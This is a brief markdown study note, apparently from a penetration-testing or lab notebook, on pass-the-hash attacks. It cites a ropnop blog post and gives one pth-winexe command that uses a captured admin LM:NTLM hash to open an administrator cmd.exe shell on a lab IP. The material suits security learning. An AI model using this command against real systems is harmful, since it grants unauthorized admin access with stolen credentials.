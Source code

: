 ```yaml
---
tags:
  - PostExploitation
  - OperatingSystems
---
```

[Practical Usage of NTLM Hashes - ropnop blog](https://blog.ropnop.com/practical-usage-of-ntlm-hashes/#long-live-pth)

Use the full admin hash with pth-winexe to spawn a shell running as admin without needing to crack their password. 
Remember the full hash includes **both the LM and NTLM hash**, separated by a colon:

```
pth-winexe -U 'admin%hash' //10.10.181.132 cmd.exe
```